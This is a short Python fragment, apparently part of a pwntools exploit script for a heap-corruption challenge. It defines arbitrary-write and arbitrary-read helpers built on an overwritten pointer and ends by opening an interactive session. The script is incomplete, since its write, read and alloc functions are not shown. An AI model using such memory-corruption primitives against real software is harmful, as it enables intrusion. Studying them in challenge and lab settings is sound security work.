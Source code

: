 ```py

def arbitrary_write(what, where):
    assert isinstance(what, int)
    assert isinstance(where, bytes) and len(where) == 8
    write(0, p64(what))
    write(1, where)

def arbitrary_read(what, where):
    assert isinstance(what, int)
    assert isinstance(where, bytes) and len(where) == 8
    write(0, p64(what))
    read(1, where)

"""
alloc(10)
write(0, b'b'*10)
alloc(10)
write(0, b'c'*10)
"""
io.interactive()
```
